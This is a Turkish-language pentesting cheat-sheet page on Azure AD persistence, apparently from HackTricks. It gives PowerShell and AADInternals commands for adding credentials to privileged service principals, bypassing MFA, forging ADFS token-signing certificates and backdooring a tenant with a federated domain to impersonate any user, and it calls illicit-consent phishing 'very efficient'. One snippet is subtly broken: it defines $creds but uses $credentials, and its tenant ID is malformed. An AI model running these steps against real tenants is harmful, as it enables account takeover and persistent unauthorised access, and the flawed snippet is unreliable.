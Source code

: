 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### İzin Verilmeyen Onay

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, yüksek etki izinlerine ihtiyaç duyan (ve eğer admin iseniz onaylayabileceğiniz) bir uygulama kaydedebilirsiniz - örneğin, bir kullanıcının adına mail göndermek, rol yönetimi vb. Bu, başarılı olması durumunda **oltalama saldırıları** gerçekleştirmemizi sağlayacaktır ki bu da çok **verimli** olacaktır.

Ayrıca, bu uygulamayı kullanıcı olarak kabul ederek ona erişimi sürdürme yolunu da seçebilirsiniz.

### Uygulamalar ve Servis Prensipleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinlerine sahip özel bir rol ile, mevcut bir uygulamaya kimlik bilgileri (gizli anahtar veya sertifika) ekleyebiliriz.

**Yüksek izinlere sahip bir uygulamayı hedef almak** veya **yüksek izinlere sahip yeni bir uygulama eklemek** mümkündür.

Uygulamaya eklenebilecek ilginç bir rol, **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olacaktır çünkü bu, Küresel Yöneticilerin **şifresini sıfırlama** yetkisi verir.

Bu teknik ayrıca **MFA'yı atlatmayı** da sağlar.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- Sertifika tabanlı kimlik doğrulama için
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

On-prem AD üzerinde **DA ayrıcalıkları** ile, çok uzun geçerlilik süresine sahip **yeni Token signing** ve **Token Decrypt sertifikaları** oluşturmak ve içe aktarmak mümkündür. Bu, bildiğimiz herhangi bir kullanıcının ImuutableID'si ile **giriş yapmamıza** olanak tanıyacaktır.

**Yeni sertifikaları oluşturmak için** aşağıdaki komutu **ADFS sunucusunda DA olarak** çalıştırın (varsayılan şifre 'AADInternals'), bunları ADFS'ye ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```bash
New-AADIntADFSSelfSignedCertificates
```
Sonra, sertifika bilgilerini Azure AD ile güncelleyin:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Güvenilir Alan

GA ayrıcalıkları ile bir kiracıda, **yeni bir alan eklemek** mümkündür (doğrulanması gerekir), kimlik doğrulama türünü Federated olarak yapılandırmak ve alanı **belirli bir sertifikaya** (aşağıdaki komutta any.sts) ve vericiye güvenecek şekilde yapılandırmak mümkündür:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
